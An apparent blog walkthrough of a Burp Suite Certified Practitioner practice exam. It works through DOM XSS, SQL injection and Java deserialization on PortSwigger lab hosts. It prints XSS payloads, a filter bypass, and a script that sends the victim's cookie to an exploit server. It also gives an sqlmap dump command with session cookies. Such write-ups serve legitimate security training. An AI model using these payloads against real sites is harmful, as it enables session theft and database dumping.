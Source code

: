 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

```
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Certified Practitioner Exam Prep ! 
header: Burp Suite Certified Practitioner Exam Preparation Walkthrough
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png

excerpt: "A unique line of text to describe this post that will display in an archive listing and meta description with SEO benefits."
---
```

### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Launch_Scan.png)

![Burp Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.